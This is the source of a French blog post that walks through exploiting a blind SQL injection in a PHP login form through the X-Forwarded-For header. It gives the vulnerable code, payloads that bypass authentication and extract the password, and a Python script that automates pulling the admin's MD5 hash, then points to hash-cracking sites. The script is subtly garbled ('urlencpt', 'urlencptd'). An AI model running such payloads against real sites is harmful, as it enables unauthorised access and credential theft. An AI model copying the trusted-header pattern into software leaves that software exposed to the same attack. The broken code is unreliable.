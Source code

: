 ```yaml
---
layout: post
title: Blind SQL injection via un header HTTP
date: 2011-07-21 14:29
categories: hacking
comments: true
photo: sqli_http_header.png
description: Cet article présente une façon originale d'exploiter une faille de type injection SQL.
---
```


Cet article présente une façon originale d'exploiter une faille de type injection SQL. La faille se trouve dans un formulaire d'identification et plus précisément dans le code PHP qui ne contrôle pas tous les paramètres de la requête SQL.

Le code PHP est le suivant :

{% highlight php %}
<?php
$req = mysql_query("SELECT login,pwd FROM administrators
                    WHERE login='".sanitize($_POST['login'])."'
                    AND pwd='".md5($_POST['password'])."'
                    AND ip='".ip()."'");
?>
{% endhighlight %}

La variable login est correctement contrôlée grâce à la fonction _sanitize()_ :

{% highlight php %}
<?php
function sanitize($param){
    if (is_numeric($param)){
    	return $param;
	}
	else{
		return mysql_real_escape_string($param);
	}
}
?>
{% endhighlight %}

Et le mot de pass est directement converti en MD5, rien à faire de ce coté là. Intéressons nous au paramète "IP" et plus particulièrement à la fonction ip()_.

{% highlight php %}
<?php
function ip(){
    if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])){
		$ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
    }
	else{
		$ip = $_SERVER["REMOTE_ADDR"];
    }

	if (preg_match("#^[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}#",$ip)){
		return $ip;
	}
	else{
		return $_SERVER["REMOTE_ADDR"];
	}
}
{% endhighlight %}

On remarque que la récupération de l'adresse ip repose sur un header HTTP _X_FORWARDED_FOR_ et que le seul contrôle effectué est un _preg_match_ qui permet de vérifier que le paramètre contient bien au moins une adresse ip. Il est alors possible d'injecter du code SQL dans le header HTTP afin de bypasser l'identification voir même d'extraire les informations de la BDD.

En modifiant le header par :

    127.0.0.1' or 1=1#

La requête est forcément vraie et on se retrouve identifié \o/

De la même manière on va pouvoir récupérer le password de l'administrateur, en effet lorsque la requete est fausse la page affiche "Mot de passe incorrect", en effectuant une [blind SQL injection](http://www.ghostsinthestack.org/article-11-blind-sql-injections.html) il est possible de retrouver le mot de passe caractère par caractère, exemple :

    127.0.0.1' or ascii(substring(pwd,1,1))=48#

Si la requête est vraie et donc que l'on se retrouve identifié alors cela veut dire que le premier caractère du mot de passe est "0" (48 en ascii)

J'ai écrit un petit script en python (mon premier) qui permet d'automatiser tout cela :

{% highlight python %}
import httplib
import urllib
import re

password = ""

md5 = ['0','1','2','3','4','5','6','7','8','9','a','b','c','d','e','f']
cpt = 0
i = 1

while i<=32:

	print 'Recherche du caractère '+str(i)
	if cpt == 16:
		cpt = 0

	print 'Test caractere : '+md5[cpt]
	params = urllib.urlencpt({'login': 'admin', 'pwd': 'password'})
	headers = {"Content-type": "application/x-www-form-urlencptd",
               "Accept": "text/plain",
               "x-forwarded-for":"127.0.0.1' or ascii(substring(pwd,"+str(i)+",1))="+str(ord(md5[cpt]))+"#"}
	conn = httplib.HTTPConnection("www.site.com:80")
	conn.request("POST", "/index.php", params, headers)
	response = conn.getresponse()
	print response.status, response.reason
	data = response.read()
	conn.close()

	if not(re.search('incorrect',data)):
		print 'Caractère trouvé : '+md5[cpt]
		password += md5[cpt]
		i += 1
		cpt = 0
	else:
		cpt += 1

print 'MD5 = '+str(password)
{% endhighlight %}

Et voila on trouve le hash et un passage par [cmd5.org](http://www.cmd5.org/) ou par [md5decrypter.co.uk](http://www.md5decrypter.co.uk/) nous donne la correspondance. Si vous avez des questions, commentaires n'hésitez pas.
